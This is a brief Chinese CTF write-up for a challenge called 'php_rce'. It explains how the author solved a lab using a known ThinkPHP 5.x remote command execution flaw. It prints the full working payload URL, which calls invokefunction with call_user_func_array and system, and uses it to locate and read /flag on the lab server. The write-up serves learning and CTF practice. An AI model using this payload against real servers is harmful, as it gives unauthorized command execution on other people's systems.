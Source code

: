 # php_rce

## 解题思路：

- 首先打开网页，写的是think PHP 5 的相关东西，先按老办法试一下index.php  robots.txt有什么东西。

- 没有什么有价值的东西，于是开始考虑think PHP 5 自身的漏洞

- 上网查找，发现确实有一个命令执行漏洞，还刚好是think PHP 5.x 的，那看来是没跑儿了，直接拿payload过来用：

    `111.198.29.45:30506/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=命令语句`

- `system&vars[1][]=` 后面直接接要执行的命令语句就行，先试试能不能找到名字叫flag的东西： `find%20/%20-name%20'flag'`

- 发现还真有，服务器回应：

    `/flag /flag`

- 接下来就简单了，直接 `cat` 让它输出出来就行：

    `111.198.29.45:30506/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag`

- 服务器返回flag值，搞定。

## 学到的东西：

- think PHP 5 的相关命令执行漏洞，看了一下大牛们的分析过程，没完全看懂，明天先把它的流程捋一遍：[流程](https://www.cnblogs.com/r00tuser/p/10103329.html)。